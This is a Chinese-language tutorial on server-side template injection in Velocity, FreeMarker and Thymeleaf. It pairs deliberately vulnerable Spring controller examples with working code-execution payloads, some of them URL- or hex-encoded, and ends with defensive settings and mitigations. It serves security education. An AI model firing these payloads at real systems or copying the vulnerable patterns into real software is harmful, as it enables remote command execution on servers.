






- [SSTI 模板注入](#ssti-模板注入)
  - [Velocity](#velocity)
    - [基础语法](#基础语法)
      - [属性](#属性)
    - [模板注入](#模板注入)
      - [模板文件内容可控](#模板文件内容可控)
      - [动态渲染字符串](#动态渲染字符串)
  - [freemarker](#freemarker)
    - [语法](#语法)
    - [new函数](#new函数)
      - [防御](#防御)
    - [API函数](#api函数)
    - [模板注入](#模板注入-1)
  - [Thymeleaf](#thymeleaf)
    - [模板内容可控](#模板内容可控)
    - [Return内容可控](#return内容可控)
    - [URI可控](#uri可控)
    - [防御](#防御-1)
  - [Smarty](#smarty)
  - [Twig](#twig)
- [参考](#参考)

# SSTI 模板注入
JAVA： freemarker，Velocity，Thymeleaf  
PHP：smarty，twig  
Python：  jinja2、 mako tornado 、django  
## Velocity
官方文档:https://velocity.apache.org/engine/2.3/user-guide.html
### 基础语法
`#`:标记表示VTL语法开始.  
`set`:表示一个指令,后面跟一个(),里面为表达式.  
`$`:变量标识符.  
`$customer.Address`等于`$customer.getAddress()`.
#### 属性
`$customer.Address`  
1. 可以指customer对象的Address属性值
2. 可以指customer对象的Address相关方法
### 模板注入
Velocity模板注入主要是渲染了用户可控的恶意模板内容，通过属性引用获取Class来反射加载恶意类执行恶意方法。  
```java
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe")
```
#### 模板文件内容可控
其中主要分两种情况，一种是使用t.merge(context,w);对t模板进行渲染时，但用户可以修改t模板的文件内容，Jira后台的模板邮件功能就可以由用户修改对应模板内容导致过几次SSTI。  
如
```java
    @RequestMapping("/template")
    public String template(){
        VelocityEngine velocityEngine = new VelocityEngine();
        velocityEngine.setProperty(RuntimeConstants.RESOURCE_LOADER,"classpath");
        velocityEngine.setProperty("classpath.resource.loader.class", ClasspathResourceLoader.class.getName());
        velocityEngine.init();
        VelocityContext context = new VelocityContext();
        context.put("name", "Velocity");
        context.put("project", "Jakarta");
        Template t = velocityEngine.getTemplate("templates/index.vm");
        StringWriter w = new StringWriter();
        t.merge(context,w);
        return w.toString();
    }
```
index.vm 内容
```java
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe")
```
  
#### 动态渲染字符串
第二种是使用了VelocityEngine.evaluate的动态渲染方法，但渲染的字符串由攻击者可控。案例如Jira CVE-2021-39115模板注入漏洞。  
```java
    @RequestMapping("/customTemplate")
    public String template(@RequestParam String tempalte){
        VelocityEngine velocityEngine = new VelocityEngine();
        velocityEngine.setProperty(RuntimeConstants.RESOURCE_LOADER,"classpath");
        velocityEngine.setProperty("classpath.resource.loader.class", ClasspathResourceLoader.class.getName());
        velocityEngine.init();
        VelocityContext context = new VelocityContext();
        context.put("name", "Velocity");
        context.put("project", "Jakarta");
        StringWriter w = new StringWriter();
        velocityEngine.evaluate(context,w,"test",tempalte);
        return w.toString();
    }
```

## freemarker
### 语法
文本：包括 HTML 标签与静态文本等静态内容，该部分内容会原样输出  
插值：语法为 ${}， 这部分的输出会被模板引擎计算的值来替换。  
指令标签：<# >或者 <@ >。如果指令为系统内建指令，如assign时，用<# >。如果指令为用户指令，则用<@ >。利用中最常见的指令标签为<#assign>，该指令可创建变量。  
注释：由 <#--和-->表示，注释部分的内容会 FreeMarker 忽略  
### new函数
new函数可创建任意实现了TemplateModel接口的Java对象，同时还可以触发没有实现 TemplateModel接口的类的静态初始化块。  
有两个常被利用继承TemplateModel接口的类为`freemarker.template.utility.JythonRuntime`和`freemarker.template.utility.Execute`。JythonRuntime需要Jython环境。
```java
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")</@value>

<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}
```
#### 防御
从 2.3.17版本以后，官方版本提供了三种TemplateClassResolver对类进行解析：
1. UNRESTRICTED_RESOLVER：可以通过 ClassUtil.forName(className) 获取任何类。
2. SAFER_RESOLVER：不能加载 freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor这三个类。
3. ALLOWS_NOTHING_RESOLVER：不能解析任何类。  
  
可通过freemarker.core.Configurable#setNewBuiltinClassResolver方法设置TemplateClassResolver，从而限制通过new()函数对freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor这三个类的解析。
### API函数
value?api 提供对 value 的 API（通常是 Java API）的访问，例如 value?api.someJavaMethod() 或 value?api.someBeanProperty。可通过 getClassLoader获取类加载器从而加载恶意类，或者也可以通过 getResource来实现任意文件读取。  

但是，当api_builtin_enabled为true时才可使用api函数，而该配置在2.3.22版本之后默认为false。
### 模板注入
当使用Template.process渲染模板文件，但内容可控时  
```java
    @RequestMapping("/customTemplate1")
    public String freemarkerCustomTemplate() throws IOException, TemplateException {
        Configuration cfg = new Configuration(Configuration.VERSION_2_3_22);
        freemarker.template.Template temp = cfg.getTemplate("index.ftl");
        StringWriter w = new StringWriter();
        temp.process(new HashMap<>(),w);
        return w.toString();
    }
```
index.ftl
```java
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}
```
  
使用StringTemplateLoader动态创建模板进行渲染，其中模板字符串可控。  
```java
    @RequestMapping("/customTemplate1")
    public String freemarkerTemplate(@RequestParam String template) throws IOException, TemplateException {
        Configuration cfg = new Configuration(Configuration.VERSION_2_3_22);
        StringTemplateLoader stringTemplateLoader = new StringTemplateLoader();
        stringTemplateLoader.putTemplate("index",template);
        cfg.setTemplateLoader(stringTemplateLoader);
        freemarker.template.Template temp = cfg.getTemplate("index");
        StringWriter w = new StringWriter();
        temp.process(new HashMap<>(),w);
        return w.toString();
    }
```

## Thymeleaf
Thymeleaf是Spring官方推荐的模板引擎，主要是其渲染过程中在${xx}中的内容可执行SPEL表达式。Thymeleaf的模板注入分以下几种场景。
### 模板内容可控
直接执行SPEL表达式即可。
```java
<span th:text="${T(java.lang.Runtime).getRuntime().exec('calc.exe')}"></span>
```
```java
@RequestMapping("/template3")
    public String template(Model model, @RequestParam String name){
        model.addAttribute("name",name);
        return "index";
    }
```
index.html  
```html
<span th:text="'Hi '+${name}"></span>
<span th:text="${T(java.lang.Runtime).getRuntime().exec('calc.exe')}"></span>
```
### Return内容可控
如果return 内容可控，那么可以直接在return里面注入SPEL表达式，Thymeleaf会直接将该内容进行渲染。
```java
    @RequestMapping("/template4")
    public String templateOne(@RequestParam String name){
        return name;
    }
```

```java
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::.x

__${T(java.lang.Thread).sleep(10000)}__::...

  __$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::...
```
### URI可控
当没有返回值时，默认以路径为视图名称进行解析。
```java
    @RequestMapping("/template4/{path}")
    public void templateTwo(@PathVariable String path){
        System.out.print("nothing"+path);
    }
```
```
__${T(java.lang.Runtime).getRuntime().exec("calc.exe")}__::.x

%5f%5f%24%7b%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%2e%65%78%65%22%29%7d%5f%5f%3a%3a%2e%78
```

  

### 防御
1. 设置ResponseBody注解
如果设置ResponseBody，则不再调用模板解析

2. 设置redirect重定向
```java
@GetMapping("/safe/redirect")
public String redirect(@RequestParam String url) {
    return "redirect:" + url;
根据spring boot定义，如果名称以redirect:开头，则不再调用ThymeleafView解析，调用RedirectView去解析controller的返回值
```
3. response
```java
@GetMapping("/safe/doc/{document}")
public void getDocument(@PathVariable String document, HttpServletResponse response) {
    log.info("Retrieving " + document); //FP
}
```
由于controller的参数被设置为HttpServletResponse，Spring认为它已经处理了HTTP Response，因此不会发生视图名称解析

4. 在高版本Thymeleaf的中已经有一个黑名单，不能再调用Runtime.exec等危险方法。
## Smarty
## Twig
# 参考
http://tttang.com/archive/1412/  
https://paper.seebug.org/1332/